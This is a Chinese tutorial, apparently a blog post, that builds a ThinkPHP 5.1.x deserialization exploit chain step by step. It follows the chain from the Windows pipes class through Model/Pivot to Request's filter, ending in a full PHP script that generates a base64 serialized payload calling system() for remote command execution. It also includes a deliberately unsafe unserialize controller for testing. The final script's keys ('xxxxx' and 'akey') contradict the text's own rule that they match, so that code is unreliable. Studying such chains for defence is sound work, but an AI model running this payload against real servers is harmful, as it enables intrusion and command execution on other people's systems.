







# TP5反序列化利用链

本文以第二人称视角重点谈谈给你了反序列化的利用链你该怎么写exp。

文章很长，当故事看即可。

**漏洞版本为 ThinkPHP 5.1.X**

##### 下图是Mochazz 大佬画的非常优雅的一张调用链图


如果说之前了解过[PHP反序列](https://github.com/lu2ker/PHP-Code/blob/main/PHP%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.md)（重点知识）的[基础知识](https://blog.csdn.net/qq_43756450/article/details/114228252)（入门知识），那么一眼就能明白这条链的起点-跳板-终点是什么。

以析构函数为起点开始调用；以`__toString`方法为跳板寻找主链；最终调用到`Request`类的`filterValue`方法中的`call_user_func`来执行命令。

假设某大佬挖到了这个反序列化漏洞利用链并告诉了关系比较菜的你，但又不给你exp。于是你想方设法来自己写exp。

## Action！

你自己下了一套源码，开始各种跟进..............................

首先是Windows类，直接全局搜索即可找到这个类，它继承了一个抽象类Pipes，学过一点PHP反序列化的你知道 要用到的类一定要写对了，毕竟反序列化的时候可是真正的去调用它的。但是看了看这个反序列化链中用到的Windows类里并没有用到其父类抽象类Pipes的内容，所以这个继承对于你构造exp来说是没有意义的。

细心的你看到了在removeFiles方法中用到了$this->files这个类内成员变量。想起来成员变量的类型也要于原程序保持一致，缓缓写下：

```php
class Windows
{
    private $files = [];
    function __construct()
    {
        $this->files = [];
    }
}
```

$this->files应该给个什么呢？你接着往下看链子，该`__toString`了。

结合file_exists()函数的使用让你想起来，file_exists的参数应该是一个字符串，而当类的对象被当作字符串使用的时候，会自动调用类的`__toString`方法，你恍然大悟原来$this->files是给了一个类的实例化对象。那么是哪个类呢？你注意到这个类是在thinkphp\library\think\model\concern\Conversion.php文件里赶紧跟过去了，结果发现他是一个trait，你知道trait的作用为了代码复用，可被其他代码使用的代码块，无法通过 trait 自身来实例化。

然后你理所当然的去找Conversion的调用了，查看引用发现只有一处调用了这个trait：thinkphp\library\think\Model.php，但是它tnd是abstract class Model（抽象类）抽象类也是无法实例化的，于是你又去找它的引用：



好多的引用顿时让你有点头大，你不会想一个一个去看的。想了一会儿你灵光一现，想起来没必要这么麻烦，因为你只想找Model的子类，而不需要找use Model！于是全局搜索：



这不就好起来了？于是你给自己的payload补充上：（命名空间就用原程序的）

```php
namespace think\model;
use think\Model;
class Pivot extends Model{
}
```

细心的你不会忽略了use think\Model，那么Model这个抽象类也得声明一下：

```php
namespace think;
abstract class Model{
}
```

顺便再给Windows类里的$this->files赋值了，然后你得到了这个：

```php
namespace think;
abstract class Model{
}
namespace think\process\pipes;
use think\Model\Pivot;
class Windows
{
    private $files = [];
    function __construct()
    {
        $this->files = [new Pivot()];
    }
}
namespace think\model;
use think\Model;
class Pivot extends Model{
}
```

行了，现在能调用到`__toString`了，你接着往下看调用链。快速回到[调用链图](#下图是Mochazz 大佬画的非常优雅的一张调用链图)。

看到了toArray的192行。看图里意思应该是可以调用任意类的visible方法，可是它接下来没有再提到调用了visible的什么，而是转到了Request的`__call`方法，你知道`__call`方法是在在对象中调用一个不可访问方法时会被调用。 而分析过Request类的你知道它并没有visible这个方法，所以如果让$relation=new Request()的话是符合这个调用链的逻辑的。

那么就来看看$relation是从哪儿来的：



经过一番思索，你知道了$this->append是声明过的成员变量，它不能为空才能走到想要执行的代码，所以你知道它需要在你的exp里面定义一下了。同时，$this->append是个数组，而且它的元素的键和值都有用，不能随便给，比如这个$name就得是个数组，于是有：`$this->append = ['xxxxx' => []];`，然后你专心地来看$relation的获取方式。

这个时候你死活找不到getRelation的函数定义，于是就下了断点，用不成熟的exp先生成一个exp跑一下看看。。。

只需在刚才写好的半成品exp下面添加，执行即可

```php
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));

#记得在Model类里补充上$this->append = ['xxxxx' => []];
```

再在index.php里面写一个简单的控制器触发反序列化：

```php
<?php
namespace app\index\controller;
class Index
{
    public function index()
    {
        $b = base64_decode($_GET['c']);
        $u = unserialize($b);
        return 'hhh';
    }
    public function hello($name = 'ThinkPHP5')
    {
        return 'hello,' . $name;
    }
}
```

经过了单步调试，你找到了thinkphp\library\think\model\concern\RelationShip.php#getRelation是要调用的方法。（当然也可以全局搜索，看看搜索结果里面有没有被Model  use的也很容易找到。）



具有一定代码功底的你毫不费力的知道这个方法最终返回了空，单步跟一下也能发现array_key_exists个判断不成立，你自始至终就没看到过哪里初始化了这里的relation变量。所以，if (!$relation) 成立，你回过头来去找getArray。

在thinkphp\library\think\model\concern\Attribute.php#472找到了之后，又到了265行的getData方法中。



你注意到在这里你需要让它成立，不然程序就要报错了。目前所在的这个Attribute也只是一个trait，所以直接在Model类里初始化data变量就好，再结合array_key_exists传入的第一个参数也是$name（即刚才的$key，也就是`$this->append = ['xxxxx' => []];`里面的xxxxx），所以data也得赋值成`['xxxxx' => '']`，来确保这里的elseif成功进入。

你还注意到这里return的是$this->data[$name]，所以data数组里的value的位置就是你一直在找的$relation的来源。而且根据调用链图的步骤，这里的value应该是new Request()。这样就满足了任意类->visible()来触发`__call`了。综上，你完善了exp中Model类的主体：

```php
abstract class Model{
    private $data = [];
    protected $append = [];
    public function __construct()
    {
        $this->data = ['xxxxx' => new Request()];
        $this->append = ['xxxxx' => []];				# 这俩数组的key要保持一致
    }
}
```

（在这里可能有一个小疑问，总感觉缺了点什么？getAttr方法中在调用getData获取了value后还有很多的代码为什么不需要再看一看呢？万一value在之后的代码中又被修改了呢？关于这个小问题，自己上手调一下便知。这也是反序列化漏洞的一点小魅力：在需要用到的类里只对有用的变量进行操作）~~PS：这段是胡扯，别把你误导了！~~

现在，就到了大佬给你的调用链的最后一步了，Request类。再来看一眼这优雅的链图



call里面用到了$think->hook，并告诉你了要去调用的是isAjax，你知道$method必须是visible才能正确的调用`__call`魔术方法，然后你就有了：`$this->hook = ['visible' => [$this, 'isAjax']];`，也就是在找不到visible方法时去调用本类的isAjax方法。而isAjax中用到的方法是param方法，并传入了`$this->config['var_ajax']`，这也是一个可控值，并会传入input方法，熟知input方法中会调用filterValue这个tp自带的RCE触发点，并且它还需要$this->filter这个成员变量的值作为call_user-func中调用的函数，流程清晰了之后你根据链条中的调用位置，开始构造一些必须的值。

你大致看了一下param函数主体就是获取请求传入的参数的，于是就直接去看input方法了。



在input方法中，存在if (false === $name) 和 if ('' != $name)和if (is_array($data))三个判断，第一个if如果成立的话会直接return掉，当然这不是你希望的结果，于是你灵机一动：让$name 为`''`（空字符串）不就好了？这可是强等于！而第三个判断是你想进入的，也是一定会进入的。于是，你只需`$this->config['var_ajax'] = ''`即可。

最后，再添加一个`$this->filter = 'system';`，就完事大吉啦！。最终你的Request类应该为：

```php
class Request{
    protected $filter;
    protected $config = [];
    protected $hook = [];
    public function __construct()
    {
        $this->config['var_ajax'] = '';
        $this->hook = ['visible' => [$this, 'isAjax']];
        $this->filter = 'system';
    }
}
```

你可能会想？光能调用system了，不得传个参数进去？不然岂不是执行了个寂寞。

你当然没这么chun，你知道在param方法中会获取参数值的，get方式就行。

你最后完成了自己的exp：

```php
<?php
namespace think;
abstract class Model{
    private $data = [];
    protected $append = [];
    public function __construct()
    {
        $this->data = ['xxxxx' => new Request()];
        $this->append = ['akey' => []];
    }
}

class Request{
    protected $filter;
    protected $config = [];
    protected $hook = [];
    public function __construct()
    {
        $this->config['var_ajax'] = '';
        $this->hook = ['visible' => [$this, 'isAjax']];
        $this->filter = 'system';
    }

}
namespace think\process\pipes;
use think\model\Pivot;
class Windows
{
    private $files = [];
    function __construct()
    {
        $this->files = [new Pivot()];
    }
}
namespace think\model;
use think\Model;
class Pivot extends Model{
}

use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
```

你最终弹出来了自己的计算器：


## CUT！

以后不用直接要exp了，换成要链子了hhhhhhh
